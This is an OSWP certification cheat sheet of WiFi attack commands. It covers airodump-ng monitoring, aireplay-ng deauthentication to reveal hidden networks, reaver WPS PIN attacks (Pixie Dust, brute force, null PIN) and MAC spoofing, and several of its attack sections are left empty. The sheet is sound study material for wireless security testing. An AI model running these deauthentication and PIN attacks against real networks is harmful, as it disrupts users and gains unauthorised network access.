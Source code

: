 # OSWP cheat sheets

This cheat sheet based on "WiFi Hacking Mind Map - v1.0 by Jérémy Brun-Nouvion (https://github.com/koutto)"

## Monitoring
### Find all AP and connected devices
```
airodump-ng <interface> --wps --manufacturer --uptime --band <band>
```

### Monitor target AP
```
airodump-ng <interface> --wps --manufacturer --uptime --band <band> -c <channel> --bssid <bssid> -w res
```
### Unhide ESSID
Set channel
```
iwconfig wlan0 channel <channel>
```
Catch beacon with ESSID
```
aireplay-ng -0 <deauth number> -a <AP MAC> <interface> 
aireplay-ng -0 <deauth number> -a <AP MAC> -c <Client MAC> <interface> #Some clients ignore broadcast deauthentications. If this is the case, you will need to send a deauthentication directed at the particular client.
```


## WEP attack


## WPS attack
Dependencies: reaver
### Custom PIN association 
 
### Pixie Dust attack 
```
 reaver -i <interface> -b <AP_MAC> -K
```
 
### Bruteforce PIN attack 
```
sudo reaver -i <interface> -b <AP_MAC>
```
 
### Known PINs attack
```
reaver -i <interface> -b <AP_MAC> -p <PIN>
```
 
### Null PIN attack 
```
reaver -i <interface> -b <AP_MAC> -p "" -N
```

## WPA attack


## WPA Enterprise



## Connect to AP

### Open
```
iw <interface> connect <ESSID>
dhclient <interface>
```

### WEP
```
iw <interface> connect <ESSID> key 0:<key>
dhclient <interface>
```

### WPA2

Dependencies: wpasupplicant
```

wpa_passphrase "<ESSID>" <key> | sudo tee /etc/wpa_supplicant.conf
wpa_supplicant -B -c /etc/wpa_supplicant.conf -i <interface>
dhclient <interface>
```

### WPA enterprise

```
sudo dhclient <interface>
```

## Other
### MAC-spoofing
```
ip link set dev <interface> down
ip link set dev <interface> address <XX:XX:XX:XX:XX:XX>
ip link set dev <interface> up
```
### Prepare Attacker PC (Monitor mode)
```
airmon-ng check kill
airmon-ng start <interface>
```
### Back to normal modee (Managed mode)
```
airmon-ng stop <Monitor interface>
systemctl start wpa_supplicant
systemctl start NetworkManager
```
